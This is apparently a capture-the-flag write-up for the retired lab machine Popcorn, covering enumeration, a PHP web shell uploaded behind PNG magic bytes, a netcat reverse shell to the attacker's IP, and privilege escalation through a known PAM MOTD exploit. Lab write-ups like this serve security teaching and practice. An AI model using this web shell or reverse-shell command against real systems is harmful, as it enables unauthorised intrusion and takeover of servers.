




# Popcorn

This is the write-up for the box Popcorn that got retired at the 25th June 2017.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.6    popcorn.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/popcorn.nmap 10.10.10.6
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page we find the default "It works" message from an Apache2 installation.
So lets enumerate paths with **Gobuster**:
```markdown
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://10.10.10.6
```

We get the following paths back:
- /index (Status: 200)
  - The index file we have seen
- /test (Status: 200)
  - Displays the PHP version file and it is 5.2.10
- /torrent (Status: 301)
  - Shows some Torrent hosting service powered by _Torrent Hoster_
- /rename (Status: 301)
  - Renamer API Syntax: index.php?filename=old_file_path_an_name&newfilename=new_file_path_and_name
- /server-status (Status: 403)

That torrent page has an Upload button but we need an account to access it.



After login we can try to upload anything but we get a message to upload an **Torrent file**. If we look at the _Browse_ tab, we see that there is already one uploaded and the link is:
```markdown
http://10.10.10.6/torrent/torrents.php?mode=download&id=723bc28f9b6f924cca68ccdff96b6190566ca6b4
```

Now we need to find where this file is located on the box and after some trying we find the path **/torrent/upload** but with only two PNG files.
One of the PNG files has the same string as the uploaded file and leads to the image file that was uploaded with it.

The upload of PHP files doesn't work here either but we can add the first magic bytes of an image file to an PHP file and upload that.

We append the following code at the end of some bytes of a PNG file and send the request again:
```php
<?php echo system($_REQUEST['cmd']); ?>
```



When we browse back to the upload directory we see the PHP file:



Now we have code execution and can start a reverse shell with:
```markdown
/torrent/upload/670acf31ef5489934e6023980c419926e764e0d3.php?cmd=nc+-e+/bin/sh+10.10.14.10+9001
```

We get a reverse shell as user _www-data_ and permission to read the user flag.

## Privilege Escalation

When looking through the home folder of _George_ one thing that stands out is the file **motd.legal-displayed** in the **.cache** folder.
This stands for _Message Of The Day_ and we can look for privilege escalation vulnerabilities:
```markdown
searchsploit motd
```

There is one for the application **PAM**:
> Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2)

Checking if we got this or an older version of PAM on the box:
```markdown
dpkg -l | grep -i pam
```
```markdown
ii  libpam-modules              1.1.0-2ubuntu1            Pluggable Authentication Modules for PAM
ii  libpam-runtime              1.1.0-2ubuntu1            Runtime support for the PAM library
ii  libpam0g                    1.1.0-2ubuntu1            Pluggable Authentication Modules library
```

We see the version 1.1.0 on the box and can upload the script and run it:



Now we are root!
